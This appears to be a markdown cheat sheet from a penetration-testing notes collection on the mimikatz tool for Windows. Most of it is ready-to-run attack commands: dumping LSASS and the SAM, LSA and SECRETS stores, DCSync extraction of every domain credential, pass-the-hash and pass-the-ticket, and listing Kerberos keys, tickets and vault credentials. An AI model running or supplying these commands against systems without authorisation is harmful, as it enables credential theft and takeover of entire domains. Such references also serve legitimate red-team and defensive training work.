 # mimikatz

## Overview

 Extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.


## Implementations

Original tool for windows:

    https://github.com/ParrotSec/mimikatz

Impacket collection of python tools implements mimikatz.py


## Usage

It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. 

    log <filename>.log

Dump a process

    sekurlsa::minidump <process_dump>   loads process dump

Retrieves credentials that are stored in the memory (RAM) for currently logged-on users. It specifically targets the LSASS (Local Security Authority Subsystem Service) process, which handles user authentication in Windows. Plaintext passwords, hashes, and Kerberos tickets for all the active user sessions. It can grab credentials from memory that are in use or recently used by the system.

    sekurlsa::logonpasswords    Searches for passwords


Extract information directly from the Local Security Authority (LSA) secrets and the Security Account Manager (SAM) database. LSA Secrets: It can pull stored passwords from the LSA, including passwords for services or cached domain credentials. SAM Hashes: You can also use this to dump user account hashes stored in the SAM database (not directly from memory like sekurlsa::logonpasswords). More focus on stored or system-wide credentials rather than just user session passwords.

    privilege::debug
    lsadump::lsa /inject

or

    privilege::debug
    sekurlsa::logonpasswords




Dump LSASS

```
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords
```

Dump and save LSASS in a file
```
mimikatz sekurlsa::minidump c:\temp\lsass.dmp
```

Pass the Hash

```
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>
```

List all available kerberos tickets in memory

```
mimikatz sekurlsa::tickets
```

Dump local Terminal Services credentials
```
mimikatz sekurlsa::tspkg
```

List cached MasterKeys
```
mimikatz sekurlsa::dpapi
```

List local Kerberos AES Keys
```
mimikatz sekurlsa::ekeys
```

Dump SAM Database
```
mimikatz lsadump::sam
```

Dump SECRETS Database
```
mimikatz lsadump::secrets
```

Inject and dump the Domain Controler's Credentials
```
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject
```

Dump the Domain's Credentials without touching DC's LSASS and also remotely
```
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all
```

Dump old passwords and NTLM hashes of a user
```
mimikatz lsadump::dcsync /user:<DomainFQDN>\<user> /history
```

List and Dump local kerberos credentials
```
mimikatz kerberos::list /dump
```

Pass The Ticket
```
mimikatz kerberos::ptt <PathToKirbiFile>
```

List TS/RDP sessions
```
mimikatz ts::sessions
```

List Vault credentials
```
mimikatz vault::list
```


## Tips

Convert base64 tickets to be cracked in linux hosts:

    echo "<base64 blob>" | tr -d \\n